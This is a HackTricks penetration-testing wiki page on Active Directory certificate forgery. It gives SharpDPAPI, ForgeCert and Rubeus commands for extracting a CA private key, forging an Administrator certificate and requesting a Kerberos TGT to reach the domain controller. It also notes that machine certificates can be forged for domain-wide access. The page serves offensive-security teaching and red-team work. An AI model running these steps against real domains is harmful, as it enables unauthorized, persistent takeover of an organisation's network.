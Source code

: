 # Forged Certificates

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

## Forged Certificates

Gaining **local admin access to a CA** allows an attacker to extract the **CA private key**, which can be used to sign a forged certificate (think of this like the krbtgt hash being able to sign a forged TGT).  The default validity period for a CA private key is 5 years, but this can obviously be set to any value during setup, sometimes as high as 10+ years.

Once on a CA, [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) can extract the private keys.

<pre class="language-bash"><code class="lang-bash">.\SharpDPAPI.exe certificates /machine

# If Issuer and subject are the distinguished name of the CA, thats the one

<strong># Save the output to a .pem file and convert it to a .pfx with openssl on Kali</strong></code></pre>

Then, save the output to a `.pem` file and convert it to a **`.pfx` with openssl** on Kali.

Build the forged certificate with [**ForgeCert**](https://github.com/GhostPack/ForgeCert)**:**

```bash
.\ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword "password" --Subject "CN=User" --SubjectAltName "Administrator@cyberbotic.io" --NewCertPath fake.pfx --NewCertPassword "password"
```

Even though you can specify any SubjectAltName, the user does need to be present in AD. In this example, the default Administrator account is used.\
Then we can simply **use Rubeus to request a legitimate TGT** with this forged certificate and use it to access the domain controller:

```bash
.\Rubeus.exe asktgt /user:Administrator /domain:cyberbotic.io /certificate:MIACAQ[...snip...]IEAAAA /password:password /nowrap
```

{% hint style="warning" %}
Note that you aren't limited to forging user certificates, we can do the same for machines. Combine this with the S4U2self trick to gain access to any machine or service in the domain.
{% endhint %}

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
